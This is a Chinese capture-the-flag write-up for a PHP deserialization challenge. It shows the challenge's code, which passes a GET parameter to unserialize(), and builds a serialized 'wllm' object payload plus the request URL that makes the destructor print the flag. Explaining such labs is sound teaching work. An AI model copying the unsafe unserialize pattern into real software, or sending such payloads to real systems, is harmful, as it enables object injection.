



# [SWPUCTF 2021 新生赛]ez_unserialize wp

一道 php 反序列化问题。   



题目在哪？先看源码。  



注释看起来是 robots.txt，看看 robots.txt:  

```
User-agent: *
Disallow: /cl45s.php
```

找到一个 php 文件，看看：
``` php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```
提供了一大串 php 代码。  
仔细看看有一个 unserialize() 反序列化函数，从 GET 获得数据。  

上面对象中的成员变量 admin 和 passwd 达到对应值就可以在析构的时候包含 flag.php 并输出 flag。  
接下来就是如何传入一个对象，当然是使用反序列。  
首先，在执行反序列化函数 `unserialize` 的时候会调用对象的 `__wakeup()` 魔术方法。  

> 序列化就是将数据转换成一种可逆的数据结构。  

让 mimo v2.5 pro 整理的：  
PHP 序列化格式中各字母的含义：

| 字母 | 含义 | 示例 |
|------|------|------|
| `a` | **array** 数组 | `a:2:{i:0;s:3:"foo";i:1;i:42;}` |
| `b` | **boolean** 布尔值 | `b:1;` (true) / `b:0;` (false) |
| `d` | **double** 浮点数 | `d:3.14;` |
| `i` | **integer** 整数 | `i:42;` |
| `N` | **NULL** 空值 | `N;` |
| `O` | **object** 对象 | `O:4:"wllm":2:{s:5:"admin";s:5:"admin";...}` |
| `r` | **reference** 引用（已序列化过的对象指针） | `r:1;` |
| `R` | **reference** 引用（指向之前的引用） | `R:1;` |
| `s` | **string** 字符串 | `s:5:"admin";` |
| `S` | **string** 字符串（带转义字符） | `S:6:"ad\6din";` |
| `C` | **custom** 自定义序列化对象 | `C:3:"foo":5:{hello}` |

**常见格式说明：**

- `s:5:"admin";` → `s` 表示字符串，`5` 是长度，`"admin"` 是内容
- `O:4:"wllm":2:{...}` → `O` 表示对象，`4` 是类名长度，`"wllm"` 是类名，`2` 是属性数量
- `a:2:{...}` → `a` 表示数组，`2` 是元素数量

序列化格式 = `类型字母:长度/值:内容;`，各字母本质上就是 PHP 数据类型名的首字母缩写。

---

以此，我们需要一个对象需要：`O`
其实你可以复制上面的代码本地将其实例化并序列化复制下来就得到我们所需的 payload:  

``` php
<?php

    error_reporting(0);
    show_source("cl45s.php");

    class wllm
    {

        public $admin;
        public $passwd;

        public function __construct()
        {
            $this->admin = "user";
            $this->passwd = "123456";
        }

        public function __destruct()
        {
            if ($this->admin === "admin" && $this->passwd === "ctf") {
                include("flag.php");
                echo $flag;
            } else {
                echo $this->admin;
                echo $this->passwd;
                echo "Just a bit more!";
            }
        }
    }

    $p = new wllm;
    $p->admin = "admin";
    $p->passwd = "ctf";
    echo serialize($p);
    ?>
```

输出:
```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```
用 GET 传参如下：
```
http://node4.anna.nssctf.cn:29606/cl45s.php/?p=O:4:%22wllm%22:2:{s:5:%22admin%22;s:5:%22admin%22;s:6:%22passwd%22;s:3:%22ctf%22;}
```
即可得到 flag:



## 参考资料
1. [ php反序列化从入门到放弃(入门篇) ](https://www.cnblogs.com/bmjoker/p/13742666.html#gallery-4)
2. [SCU-CTF PHP 反序列化 ](https://wiki.scuctf.com/ctfwiki/web/5.unserialize/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
